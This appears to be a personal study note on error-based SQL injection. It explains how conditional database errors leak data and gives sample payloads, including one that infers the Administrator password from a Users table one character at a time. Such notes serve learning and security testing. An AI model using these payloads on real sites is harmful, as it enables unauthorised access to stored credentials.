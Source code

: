```yaml
---
Title: Error-based SQLi
tags:
  - SQLi
  - ERROR-BASEDSQLi
---
```

Error based sql is focused on error messages that a website returns, and exploiting that to extract sensitive data from the database.

> [!Example]
> ```sql
> xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
> --- in simpler terms: if 1=2, execute 1/0 (1 divided by 0, which returns a database error), else, return 'a'
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a

We can exploit these errors, just like we did in [[Blind SQLi]].
> [!Sample Payload]
> ```sql
> xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
> --- If the condition is true, it should return an error, else, the condition will return true 
